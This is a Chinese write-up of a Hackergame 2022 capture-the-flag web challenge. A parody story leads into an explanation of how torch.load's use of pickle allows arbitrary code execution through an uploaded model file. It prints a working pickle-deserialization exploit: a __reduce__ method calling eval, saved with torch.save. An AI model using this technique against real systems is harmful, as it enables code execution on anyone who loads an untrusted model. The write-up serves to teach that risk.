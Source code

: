 # 二次元神经网络

题解作者：[volltin](https://github.com/volltin)

出题人、验题人、文案设计等：见 [Hackergame 2022 幕后工作人员](../../credits.pdf)。

## 题目描述

- 题目分类：web

- 题目分值：250

天冷极了，下着雪，又快黑了。这是一年的最后一天——大年夜。在这又冷又黑的晚上，一个没有 GPU、没有 TPU 的小女孩，在街上缓缓地走着。她从家里出来的时候还带着捡垃圾捡来的 E3 处理器，但是有什么用呢？跑不动 Stable Diffusion，也跑不动 NovelAI。她也想用自己的处理器训练一个神经网络，生成一些二次元的图片。

于是她配置好了 PyTorch 1.9.1，定义了一个极其简单的模型，用自己收集的 10 张二次元图片和对应的标签开始了训练。

```
SimpleGenerativeModel(
  (tag_encoder): TagEncoder(
    (embedding): Embedding(63, 8, padding_idx=0)
  )
  (model): Sequential(
    (0): Linear(in_features=16, out_features=8, bias=True)
    (1): ReLU()
    (2): Linear(in_features=8, out_features=8, bias=True)
    (3): ReLU()
    (4): Linear(in_features=8, out_features=64 * 64 * 3, bias=True)
    (5): Tanh()
  )
)
```

她在 CPU 上开始了第一个 epoch 的训练，loss 一直在下降，许多二次元图片重叠在一起，在向她眨眼睛。

她又开始了第二个 epoch，loss 越来越低，图片越来越精美，她的眼睛也越来越累，她的眼睛开始闭上了。

...

第二天清晨，这个小女孩坐在墙角里，两腮通红，嘴上带着微笑。新年的太阳升起来了，照在她小小的尸体上。

人们发现她时才知道，她的模型在 10 张图片上过拟合了，几乎没有误差。

（完）

听完这个故事，你一脸的不相信：「这么简单的模型怎么可能没有误差呢？」，于是你开始复现这个二次元神经网络。

## 题解

tl;dr: 这道题目是 web 题，漏洞点在于 `torch.load` 调用了 `pickle` 模块，加载模型参数的过程是不安全的，通过构造特定的文件，可以达成任意命令执行。

之所以出这道题，是因为最近各种图片生成模型很火，有很多人可能会从网上下载一些模型，然后在自己电脑、实验室的服务器等地方 load and run，其实这是非常危险的，查看 PyTorch 的 [文档](https://pytorch.org/docs/stable/generated/torch.load.html) 也能看到 **Only load data you trust** 的警告。

从网站上得到附件 `2d_model.zip` 后，根据说明可以尝试上传 `checkpoint/model.pt`，这是一个稍微训练了一下的网络参数，结果不是很好，所以大概会得到类似的提示：

> 最大误差：0.05549 > 0.0005，没有达到要求。每张图片的误差（loss 值）：0.01418, 0.01349, 0.05549, 0.00977, 0.01611, 0.01215, 0.02244, 0.03020, 0.02355, 0.01839

接下来根据题目的提示「上传模型后将会由 `infer.py` 运行」，可以重点分析 `infer.py` 的内容，其中第 23 行：

```python
model.load_state_dict(torch.load(pt_file, map_location="cpu"))
```

是漏洞出现的地方，只要我们能够控制 `pt_file` 的值，就可以达成任意命令执行，利用方法和 `pickle.load` 完全相同，大家可以网上搜索。

第 43 行说明了我们应该把答案写入一个文件中：

```python
json.dump({"gen_imgs_b64": gen_imgs}, open("/tmp/result.json", "w"))
```

所以只要将作为答案的真实图片直接写入即可，最后得到 payload 如下：

```python
import io
import json
import base64

import torch
import matplotlib
import matplotlib.image

# 加载正确答案
PIXEL_FILE="../files/dataset/pixels_10.pt"
predictions = torch.load(PIXEL_FILE, map_location="cpu")

# 生成 base64 格式的数据
gen_imgs = []
for i in range(10):
    out_io = io.BytesIO()
    matplotlib.image.imsave(out_io, predictions[i].numpy(), format="png")
    png_b64 = base64.b64encode(out_io.getvalue()).decode()
    gen_imgs.append(png_b64)

content = json.dumps({"gen_imgs_b64": gen_imgs})

# 构造要执行的 python 代码
args = "open('/tmp/result.json', 'w').write('" + content.replace('\\', '\\\\').replace("'", "\\'") + "')"

# 通过 __reduce__ 方法执行 python 代码
class Exploit(object):
    def __reduce__(self):
        return (eval, (args,))

torch.save(Exploit(), "model_exp.pt")
```

提交生成的 `model_exp.pt`，即可得到 flag。

在这道题中，由于 eval 返回值不是一个合法的 `state_dict`，所以后续的代码会报错，但是没有关系，web 前端调用这个代码时会忽略异常，不管是否有异常，执行之后去读取 `/tmp/result.json`。

## 统计信息

选手们提交的模型的误差最低为 0.001。

~~（更多统计敬请期待）~~

## 附注

@taoky: 

用 `torch.load()` 来 RCE 的题目其实我去年就有这个想法，但是当时因为种种原因没有实现。最近适逢 Diffusion 模型大火，豆豆和我一合计，就搞了这道题。我不太懂机器学习，所以我主要做的是 web 框架的代码实现，以及……数据集里那十张图片和标签也是我搞的。不幸的是，我也既没有 GPU，也没有 TPU，所以标签都是自己凭感觉写的。

选图的时候，从自己看过的番剧里面选了一些名场面（[十张图的内容](src/web/app/static/images/)）。~~不过比赛的时候 [Elsa Granger](https://github.com/zeyugao) 问我为什么这 10 张图没有每张都选不一样的，这样就能并发地安利十个番了~~。

在最后：**快点去看《摇曳露营》《莉可丽丝》[^1]《LoveLive 虹咲学园学园偶像同好会》《Slow Loop》《孤独摇滚》[^2]和《街角魔族》（按图片顺序排序）！**

emm...

![yamanosusume](assets/yama.png)

《向山进发》（十月是第四季放送）也很好看！甚至我某台 VPS 的 motd 也是 aoi：

![aoi](assets/aoi.png)

[^1]: 我不是很推荐《莉可丽丝》的剧情，但是名场面真的有点多，所以我放了两张。
[^2]: 十月新番。
